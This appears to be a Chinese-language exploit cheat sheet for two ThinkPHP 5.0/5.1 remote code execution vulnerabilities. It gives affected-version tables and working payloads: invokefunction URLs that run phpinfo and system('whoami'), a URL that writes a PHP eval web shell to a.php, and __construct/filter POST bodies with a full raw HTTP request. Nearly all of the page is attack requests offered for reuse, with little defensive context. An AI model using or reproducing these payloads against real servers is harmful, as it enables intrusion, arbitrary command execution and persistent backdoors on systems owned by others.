 # 目录

##### 一、控制器名引起的RCE

##### 二、核心类Requests引起的RCE

### 一、控制器名引起的RCE

##### 公开时间：  

2018/12/09  

##### 影响版本：  

ThinkPHP 5.0系列 < 5.0.23
ThinkPHP 5.1系列 < 5.1.31

poc:  

```
http://127.0.0.1/tp5022/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=1
```

exp:  

```
http://127.0.0.1/tp5022/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

shell:  

```
http://127.0.0.1/tp5022/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=a.php&vars[1][]=<?php eval(@$_POST['a']);?>#shell地址http://127.0.0.1/tp5022/public/a.php
```

### 二、核心类Requests引起的RCE  

##### 公开时间：  

2019/01/11

##### 影响版本：  

5.0全系列，具体如下  

```
版本名  是否可被攻击  攻击条件
5.0.0   否           无
5.0.1   否           无
5.0.2   否           无
5.0.3   否           无
5.0.4   否           无
5.0.5   否           无
5.0.6   否           无
5.0.7   否           无
5.0.8   是           无需开启debug
5.0.9   是           无需开启debug
5.0.10  是           无需开启debug
5.0.11  是           无需开启debug
5.0.12  是           无需开启debug
5.0.13  是           需开启debug
5.0.14  是           需开启debug
5.0.15  是           需开启debug
5.0.16  是           需开启debug
5.0.17  是           需开启debug
5.0.18  是           需开启debug
5.0.19  是           需开启debug
5.0.20  否           无
5.0.21  是           需开启debug
5.0.22  是           需开启debug
5.0.23  是           需开启debug
5.0.24  否           无
```

exp：  

```
版本号：5.0.8~5.0.19s=whoami&_method=__construct&filter&filter=system版本号：5.0.20~5.0.23_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami或_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

具体请求包如下，留意下`Content-Type: application/x-www-form-urlencoded`  

```
POST /tp5022/public/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: think_var=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

   

![](../img/46.jpg)  

